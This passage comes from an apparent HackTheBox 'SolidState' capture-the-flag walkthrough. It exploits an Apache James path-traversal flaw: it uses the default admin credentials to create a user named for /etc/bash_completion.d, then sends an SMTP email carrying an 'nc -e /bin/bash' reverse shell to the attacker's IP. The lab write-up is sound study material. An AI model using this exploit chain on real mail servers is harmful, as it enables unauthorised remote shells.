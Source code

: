 Alweays when create a new user in James stmp server, a folder is created for that user based on their username, and when email comes in, it is stored in that folder. The vulnerability is in the username, if the user is named ../../../../../0x4rt3mis, then it will create that folder at the root level and drop files in it with the contents of received emails, great huh? What the script does, is when the user send an email, it executes the bash_completion, so we can trigger a reverse shell trough it!

Let's make it manual

1º Create a User

```
nc 10.10.10.51 4555
root
root
adduser ../../../../../../../../etc/bash_completion.d 0x4rt3misHTB
quit
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2006:57:00.png)

2º Send an email with a reverse shell, connecting to SMTP on 25:

```
telnet 10.10.10.51 25
EHLO 0x4rt3mis
MAIL FROM: <'0x4rt3mis@10.10.14.3>
RCPT TO: <../../../../../../../../etc/bash_completion.d>
DATA
FROM: 0x4rt3mis@10.10.14.3
'
/bin/nc -e /bin/bash 10.10.14.3 8888
.
QUIT
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2006:48:13.png)

This creates a file in /etc/bash_completion.d that contains my reverse shell. So the next time any user logs in, we will get a shell as that user.

Now we got a reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2007:02:41.png)

Now let's easily automate it, once we already did it manually and we have a exploit read to guide us.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
```